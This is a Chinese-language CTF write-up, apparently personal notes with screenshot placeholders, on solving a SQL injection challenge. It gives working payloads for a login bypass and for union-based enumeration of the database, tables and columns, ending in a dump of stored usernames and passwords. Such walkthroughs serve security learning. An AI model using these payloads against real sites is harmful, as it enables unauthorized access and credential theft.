 ![[Pasted image 20250205120725.png]]
使用单引号的万能密码`1' or true #`试一下，直接就进去了
![[Pasted image 20250205120826.png]]
得到这个数据没什么用，登录进来还是这个界面
通过联合查询`a' union select 1,2,3 #`进入界面（用admin'的话和上面一样）
![[Pasted image 20250205121000.png]]
查库名：`a' union select 1,database(),3 #`
**库名：geek**
查表名：`a' union select 1,table_name,3 from information_schema.tables where table_schema = 'geek'#`
![[Pasted image 20250205121246.png]]
**表名只有一个：geekuser**
查字段：`a' union select 1,column_name,3 from information_schema.columns where table_name = 'geekuser'#`
![[Pasted image 20250205121406.png]]
只显示一个id，不对劲，字段一般不止一个，可能是被**limit**了
故用**group_concat**
查字段：`a' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'geekuser'#`
![[Pasted image 20250205121527.png]]
果然都出来了
查：`a' union select 1,username,password from geekuser #`
没什么内容，和上面的账号密码一样
既然有limit限制，那我之前查的表名是不是也少了呢？
查表名：`a' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'geek'#`
![[Pasted image 20250205121655.png]]
果然！**关键表名：l0ve1ysq1**
查字段：`a' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'l0ve1ysq1'#`
![[Pasted image 20250205121841.png]]
还是这几个
查：`a' union select 1,group_concat(id,username,password),3 from l0ve1ysq1 #`
果然有东西！但界面太乱了，进入源码查看，找到了：
![[Pasted image 20250205122113.png]]
